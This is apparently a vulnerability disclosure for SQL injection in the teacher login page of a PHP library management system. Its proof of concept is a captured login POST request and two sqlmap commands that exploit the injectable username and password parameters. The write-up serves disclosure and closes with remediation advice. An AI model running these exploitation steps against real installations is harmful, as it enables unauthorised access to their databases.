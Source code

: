 # Library System In PHP - SQL Injection (Teacher Login)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/teacher/login.php

> Two parameters `username` and `password` within teacher login are vulnerable to SQL Injection.


![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.2Library-System-In-PHP-Sqli-teacher_login_username.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.2Library-System-In-PHP-Sqli-teacher_login_password.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `teacherlogin.txt`:

```
POST /Lms/Source/librarian/user/teacher/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 87
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

login=Login&password=1&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r teacherlogin.txt --batch --dbms MYSQL --is-dba -p username
```
```
sqlmap -r teacherlogin.txt --batch --dbms MYSQL --is-dba -p password
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
